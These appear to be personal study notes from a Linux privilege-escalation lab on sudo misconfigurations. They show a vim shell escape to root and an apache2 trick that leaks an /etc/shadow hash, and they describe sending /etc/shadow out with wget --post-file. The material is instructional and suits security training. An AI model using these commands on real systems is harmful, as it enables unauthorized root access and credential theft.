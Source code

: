 ## Shell Escaping

We can find the commands our user can run as sudo by typing `sudo -l`

```bash
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

We see that there are several commands we can run as sudo without a password as this user. We can use one of these commands to see whether there is shell escape available though [GTFOBins](https://gtfobins.github.io/). For example we can exploit `vim` as follow.

```bash
TCM@debian:~$ sudo vim -c ':!/bin/sh'
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
```

## Intended Functionality

There can be situations where a direct path of exploitation is not available based on the sudo commands we have access to. However, we can manipulate the functionalities of tools to gains access to resources as sudo. 

For example, if we can run `apache2` as sudo, we can use the `-f` flag to provide the `/etc/passwd` file as the config file resulting in an error and printing out the first line as the error message.

```bash
TCM@debian:~$ sudo apache2 -f /etc/shadow
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```

Another example is if we can run `wget` as sudo, we can use the `--post-file` command to send the `/etc/shadow` file through  to a listener that we set up.

## LD_PRELOAD

Check [[Privilege Escalation#^f03211|here]] for more details
